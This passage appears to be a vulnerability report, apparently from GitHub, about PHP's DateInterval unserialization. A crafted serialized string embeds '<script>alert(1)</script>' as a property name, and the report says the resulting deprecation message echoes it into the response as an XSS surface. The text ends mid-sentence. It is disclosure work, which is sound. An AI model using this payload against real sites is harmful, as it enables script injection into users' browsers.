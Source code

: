 ```php
<?php

$interval = new DateInterval("P7D");
$strser = serialize($interval);

print($strser);

unserialize('O:12:"DateInterval":10:{s:1:"y";i:0;s:1:"m";i:0;s:1:"d";i:7;s:1:"h";i:0;s:1:"i";i:0;s:1:"s";i:0;s:1:"f";d:0;s:6:"invert";i:0;s:4:"days";b:0;s:25:"<script>alert(1)</script>";b:0;}');

php>
```

This will produce a fatal error that prints to the output:

`Deprecated: Creation of dynamic property DateInterval::$<script>alert(1)</script> is deprecated in /home/user/scripts/code.php on line 8`

This is echoed back as part of the response's body, being thus a surface for XSS.

The error is produced due to the fact that the **NAME** of the field is being changed, an the s